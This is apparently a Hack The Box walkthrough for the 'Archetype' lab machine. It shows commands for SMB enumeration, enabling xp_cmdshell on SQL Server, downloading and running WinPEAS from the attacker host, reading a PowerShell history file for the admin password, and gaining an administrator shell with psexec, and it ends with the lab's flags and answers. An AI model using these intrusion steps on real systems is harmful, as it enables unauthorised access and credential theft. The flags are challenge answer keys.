









# Archetype - Hack The Box

### Task 1: Which TCP port is hosting a database server? 

To identify the open ports on the target machine, you can use`nmap`:

`nmap -p- -T4 -n --min-rate 1000 10.129.33.157`

And the result is:

The results show multiple open TCP ports:

- Microsoft Remote Procedure Call (msrpc): A protocol enabling communication between programs on different computers over a network.
- NetBIOS Session Service (netbios-ssn): A protocol for network file sharing over NetBIOS, typically associated with the older SMB (Server Message Block) protocol.
- Microsoft Directory Services (microsoft-ds): Provides Windows network file sharing and other services, used by the newer version of SMB.
- Microsoft SQL Server (ms-sql-s): This port (1433) is used for SQL Server communication.
- Windows Remote Management (wsman): A service enabling remote management of Windows servers using the WS-Management protocol.
- Windows Remote Management over HTTP (winrm): An extended service for remote management, including additional configurations.

Port 1433 is used by Microsoft SQL Server.
Solution: **1433**

### Task 2:  What is the name of the non-Administrative share available over SMB? 

With ports 135 and 445 open, we know that the SMB service is running, allowing file and resource sharing. To list the available SMB shares, we can use:

`smbclient -N -L 10.129.33.157`

The `-N` flag allows anonymous login, and `-L` lists available shares.

Even though the connection failed, it displayed some share names. To connect to the "backups" share:

`smbclient -N //10.129.33.157\\backups`

We can access the _backups_ directory, which is the non-administrative share.

Solution: **backups**

### Task 3: What is the password identified in the file on the SMB share? 

After connecting to the shared _backups_ directory, we list its contents and see the _prod.dtsConfig_ file, which likely contains configuration data.

By downloading the file with get and inspecting its contents, we find a username and password.

Solution: **M3g4c0rp123**

### Task 4: What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? 

To log into the SQL Server, you can use the mssqlclient.py script from the Impacket toolkit. You can download it from [Impacket GitHub](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py).

The command to connect:
`python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.33.157 -windows-auth`

The `-windows-auth` flag specifies that we are using Windows authentication.

Solution: **mssqlclient.py**

### Task 5: What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? 

The `xp_cmdshell` extended stored procedure allows you to execute system commands directly from SQL Server. By default, this procedure is disabled, but you can enable it as follows:

`EXEC sp_configure 'show advanced options', '1';`

`RECONFIGURE;`

`EXEC sp_configure 'xp_cmdshell', '1';`

`RECONFIGURE;`

Once enabled, you can use `xp_cmdshell` to execute commands like:

This confirms that the command shell is working. You can use `powershell -c <COMMAND>` to run PowerShell commands as well.

After navigating through the system, we find the user flag.

Solution: **xp_cmdshell**

### Task 6: What script can be used in order to search possible paths to escalate privileges on Windows hosts? 

To escalate privileges, you can use WinPEAS, part of the PEAS suite. It helps in identifying potential privilege escalation vectors.

First, download WinPEAS from the [PEASS GitHub repository](https://github.com/peass-ng/PEASS-ng) and start an HTTP server to transfer it to the target:

`python3 -m http.server 80`

Then, use `xp_cmdshell` to download it to the target machine:

`xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.47/winPEASx64.exe -outfile winPEASx64.exe"`

Finally, execute WinPEAS on the target:

`xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\winPEASx64.exe"`

After reviewing the output, look for highlighted sections (in red) that indicate misconfigurations or vulnerabilities.

Solution: **WINPeas**

### Task 7: What file contains the administrator's password? 

WinPEAS points out an interesting discovery: the PowerShell history file, which may contain sensitive information.

Check the PowerShell history:

`xp_cmdshell "powershell -c type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"`

The file contains the administrator's password.

You can now use the psexec.py script from Impacket to get a reverse shell as the administrator:

`impacket-psexec Administrator@10.129.164.190`

After entering the password, you have administrator access. The root flag is located in _C:\Users\Administrator\Desktop_.

Great! We did it!

Solution: **ConsoleHost_history.txt**

### Flags:

User's: **3e7b102e78218e935bf3f4951fec21a3**

Root's flag: **b91ccec3305e98240082d4474b848528**